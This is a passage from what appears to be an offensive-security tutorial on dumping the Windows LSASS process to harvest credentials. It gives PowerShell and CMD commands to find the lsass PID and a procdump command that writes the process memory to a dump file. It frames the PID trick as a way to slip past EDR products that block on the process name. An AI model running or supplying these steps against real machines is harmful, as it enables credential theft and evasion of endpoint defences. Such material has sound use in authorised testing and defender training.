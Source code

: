 Some EDR solutions warn or block this based on the lsass process name. This can usually be bypassed by specifying the LSASS transaction ID instead.

To get the LSASS process ID via PowerShell:

| 1  | PS C:\\Users\\0xhav0c\> get-process lsass  |
|----|--------------------------------------------|

![Finding lsass.exe PID with Powershell](media/ea8dd69bb1fa8035a07892c19ef08bfc.png)Finding lsass.exe PID with Powershell

To get the LSASS process ID with CMD:

| 1  | C:\\Users\\0xhav0c\> tasklist \| findstr lsass  |
|----|-------------------------------------------------|

![Finding lsass.exe PID with CMD](media/aa06bb2ef887f1d11f903b7e31e06d8a.png)finding lsass.exe PID with CMD

Then dump the findstr value with the same procdump:

| 1  | C:\\Users\\0xhav0c\> procdump.exe -accepteula -ma 528 out.dmp  |
|----|----------------------------------------------------------------|

![Dumping lsass.exe with procdump.exe after finding lsass.exe PID](media/7beba89196f65e55264e35aec9a91bac.png)
